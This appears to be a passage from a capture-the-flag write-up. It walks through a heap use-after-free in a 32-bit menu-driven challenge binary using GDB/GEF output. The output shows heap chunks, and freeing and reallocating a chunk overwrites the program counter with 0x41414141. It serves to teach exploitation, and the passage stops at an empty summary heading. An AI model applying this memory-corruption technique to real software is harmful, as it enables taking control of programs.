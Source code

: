 ```gdb
Welcome to my stream! ^W^
==========================
(S)ubscribe to my channel
(I)nquire about account deletion
(M)ake an Twixer account
(P)ay for premium membership
(l)eave a message(with or without logging in)
(e)xit
M
===========================
Registration: Welcome to Twixer!
Enter your username: 
AAAABBBB 
```

Take a look into `heap chunks`.

```gdb
gef➤  heap chunks
Chunk(addr=0x804c010, size=0x190, flags=PREV_INUSE)
    [0x0804c010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x804c1a0, size=0x10, flags=PREV_INUSE)
    [0x0804c1a0     f6 89 04 08 c0 c5 04 08 00 00 00 00 11 04 00 00    ................]
Chunk(addr=0x804c1b0, size=0x410, flags=PREV_INUSE)
    [0x0804c1b0     41 41 41 41 42 42 42 42 0a 00 00 00 00 00 00 00    AAAABBBB........]
Chunk(addr=0x804c5c0, size=0x70, flags=PREV_INUSE)
    [0x0804c5c0     41 41 41 41 42 42 42 42 0a 00 00 00 00 00 00 00    AAAABBBB........]
Chunk(addr=0x804c630, size=0x219d8, flags=PREV_INUSE)
    [0x0804c630     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x804c630, size=0x219d8, flags=PREV_INUSE)  ←  top chunk
gef➤  x/20gx 0x804c1b0-0x10
0x804c1a0:	0x0804c5c0080489f6	0x0000041100000000
0x804c1b0:	0x4242424241414141	0x000000000000000a <-- this is where we write
```

If we create account again, it will go to the same place.

```gdb
gef➤  x/20gx 0x804c1b0-0x10
0x804c1a0:	0x0804c630080489f6	0x0000041100000000
0x804c1b0:	0x4444444443434343	0x000000000000000a
```

If we free the chunk with `I` and then send `L` to to allocate a new buffer, we see we got this message.

```gdb
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
```

That means we have overwritten the `pc`. Not sure if this is the intended solution, but works and it's 100% reliable.

#### Summary

